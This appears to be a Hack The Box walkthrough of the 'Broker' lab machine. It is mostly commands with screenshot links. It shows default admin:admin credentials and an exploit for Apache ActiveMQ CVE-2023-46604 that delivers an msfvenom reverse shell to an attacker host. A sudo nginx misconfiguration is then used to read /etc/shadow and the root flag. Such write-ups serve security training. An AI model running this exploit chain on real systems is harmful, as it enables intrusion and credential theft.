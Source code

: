 ```
nmap -sS -sC -sV -T5 -Pn 10.10.11.243
nmap -p- -T5 10.10.11.243
```
![image](https://github.com/regarmulia/HTB/assets/33616880/1186881c-78c2-46f8-a554-1ba8d6634117)

![image](https://github.com/regarmulia/HTB/assets/33616880/2611c10e-95d7-41e1-8c74-6fcf7f6f8844)

```
10.10.11.243/
admin:admin
```
![image](https://github.com/regarmulia/HTB/assets/33616880/4bb5ac1e-d62a-46cd-822f-3ac7bee4abc8)

![image](https://github.com/regarmulia/HTB/assets/33616880/cc45491e-7042-4a98-8622-5722631b40a6)

![image](https://github.com/regarmulia/HTB/assets/33616880/67f7a55f-3471-4f52-a062-46c83d247792)

```
activemq broker 5.15.15 exploit
```
![image](https://github.com/regarmulia/HTB/assets/33616880/0c0635b0-741d-46c7-ad00-e4a8c7a45c99)

![image](https://github.com/regarmulia/HTB/assets/33616880/bb33149d-66eb-4c81-904e-8c31d3b0be2c)


```
git clone https://github.com/SaumyajeetDas/CVE-2023-46604-RCE-Reverse-Shell-Apache-ActiveMQ.git
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.12 LPORT=4444 -f elf -o test.elf
python3 -m http.server 8001
nc -lvvp 4444
go run main.go -i 10.10.11.243 -p 61616 -u http://10.10.14.12:8001/poc-linux.xml
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
![image](https://github.com/regarmulia/HTB/assets/33616880/02a6e7d6-a3cd-486c-9719-80fa5efa2b77)

![image](https://github.com/regarmulia/HTB/assets/33616880/497cfa98-5b46-4748-bb90-3504ed9869d3)

![image](https://github.com/regarmulia/HTB/assets/33616880/b1fd204c-a6df-4c0c-af35-e24df116c0c3)


```
sudo -l
```
![image](https://github.com/regarmulia/HTB/assets/33616880/b859f21c-8787-40ff-af31-430a25fb5886)

```
user root;
events {
    worker_connections 1024;
}
http {
    server {
        listen 1337;
        root /;
        autoindex on;
    }
}
```
```
python3 -m http.server 80
wget 10.10.14.12/privesc.conf
sudo /usr/sbin/nginx -c /tmp/privesc.conf
curl localhost:1337/etc/shadow
curl localhost:1337/root/root.txt
```
![image](https://github.com/regarmulia/HTB/assets/33616880/60e2f555-7bbc-42b3-8032-d98337503493)

![image](https://github.com/regarmulia/HTB/assets/33616880/a524f463-885a-4995-aec9-cf33583e22d3)

![image](https://github.com/regarmulia/HTB/assets/33616880/9c6fe913-03a7-4805-832b-e032bd0cb45d)
